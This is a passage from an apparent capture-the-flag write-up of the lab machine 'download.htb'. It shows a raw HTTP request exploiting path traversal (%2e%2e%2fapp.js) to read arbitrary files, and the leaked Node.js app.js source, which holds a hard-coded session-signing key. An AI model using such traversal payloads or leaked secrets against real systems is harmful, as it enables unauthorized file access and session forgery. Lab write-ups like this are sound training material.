 When modifying the url parameters it was possible to read any arbitrary files on the application. I decided to look for the app.js file as this is a JS based application.

**Request**
```
GET /files/download/%2e%2e%2fapp.js HTTP/1.1
Host: download.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://download.htb/home/
Cookie: download_session=eyJmbGFzaGVzIjp7ImluZm8iOltdLCJlcnJvciI6W10sInN1Y2Nlc3MiOltdfSwidXNlciI6eyJpZCI6MTcsInVzZXJuYW1lIjoiQ2FsaWNvIn19; download_session.sig=p6BPpnlq6lakJO1YIoV58dnktUA
Upgrade-Insecure-Requests: 1
```

Which returned the app.js source code of the application

```js
"use strict";
var __importDefault = (this && this.__importDefault) || function (mod) {
    return (mod && mod.__esModule) ? mod : { "default": mod };
};
Object.defineProperty(exports, "__esModule", { value: true });
const express_1 = __importDefault(require("express"));
const nunjucks_1 = __importDefault(require("nunjucks"));
const path_1 = __importDefault(require("path"));
const cookie_parser_1 = __importDefault(require("cookie-parser"));
const cookie_session_1 = __importDefault(require("cookie-session"));
const flash_1 = __importDefault(require("./middleware/flash"));
const auth_1 = __importDefault(require("./routers/auth"));
const files_1 = __importDefault(require("./routers/files"));
const home_1 = __importDefault(require("./routers/home"));
const client_1 = require("@prisma/client");
const app = (0, express_1.default)();
const port = 3000;
const client = new client_1.PrismaClient();
const env = nunjucks_1.default.configure(path_1.default.join(__dirname, "views"), {
    autoescape: true,
    express: app,
    noCache: true,
});
app.use((0, cookie_session_1.default)({
    name: "download_session",
    keys: ["8929874489719802418902487651347865819634518936754"],
    maxAge: 7 * 24 * 60 * 60 * 1000,
}));
app.use(flash_1.default);
app.use(express_1.default.urlencoded({ extended: false }));
app.use((0, cookie_parser_1.default)());
app.use("/static", express_1.default.static(path_1.default.join(__dirname, "static")));
app.get("/", (req, res) => {
    res.render("index.njk");
});
app.use("/files", files_1.default);
app.use("/auth", auth_1.default);
app.use("/home", home_1.default);
app.use("*", (req, res) => {
    res.render("error.njk", { statusCode: 404 });
});
app.listen(port, process.env.NODE_ENV === "production" ? "127.0.0.1" : "0.0.0.0", () => {
    console.log("Listening on ", port);
    if (process.env.NODE_ENV === "production") {
```